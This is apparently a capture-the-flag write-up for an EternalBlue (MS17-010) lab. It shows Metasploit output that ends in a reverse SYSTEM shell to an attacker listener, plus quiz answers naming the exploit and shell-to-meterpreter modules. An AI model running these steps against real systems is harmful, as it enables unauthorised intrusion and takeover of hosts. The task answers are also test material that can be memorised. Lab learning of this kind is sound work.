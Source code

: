 ```bash showLineNumbers
[*] 10.10.75.105:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.75.105:445 - Sending all but last fragment of exploit packet
[*] 10.10.75.105:445 - Starting non-paged pool grooming
[+] 10.10.75.105:445 - Sending SMBv2 buffers
[+] 10.10.75.105:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.75.105:445 - Sending final SMBv2 buffers.
[*] 10.10.75.105:445 - Sending last fragment of exploit packet!
[*] 10.10.75.105:445 - Receiving response from exploit packet
[+] 10.10.75.105:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.75.105:445 - Sending egg to corrupted connection.
[*] 10.10.75.105:445 - Triggering free of corrupted buffer.
[*] Sending stage (336 bytes) to 10.10.75.105
[+] 10.10.75.105:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.75.105:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.75.105:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] Command shell session 1 opened (10.10.158.144:4444 -> 10.10.75.105:49197) at 2023-08-01 11:24:37 +0100


Shell Banner:
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
-----
          

C:\Windows\system32>whoami
whoami
nt authority\system
```
## Flag
### Task1
- How many ports are open with a port number under 1000? `3`
- What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067) `Ms17-010`
### Task2
- Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)  `exploit/windows/smb/ms17_010_eternalblue`
- Show options and set the one required value. What is the name of this value? (All caps for submission)  `RHOSTS`

### Task3
- If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected)  `post/multi/manage/shell_to_meterpreter`
- Select this (use MODULE_PATH). Show options, what option are we required to change? `SESSION`

### Task4
```bash
# 保存当前会话
msf6 post(windows/gather/smart_hashdump) > use post/multi/manage/shell_to_meterpreter
msf6 post(multi/manage/shell_to_meterpreter) > options

Module options (post/multi/manage/shell_to_meterpreter):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   HANDLER  true             yes       Start an exploit/multi/handler to receive the connection
   LHOST                     no        IP of host that will receive the connection from the payload (Will try to auto detect).
   LPORT    4433             yes       Port for payload to connect to.
```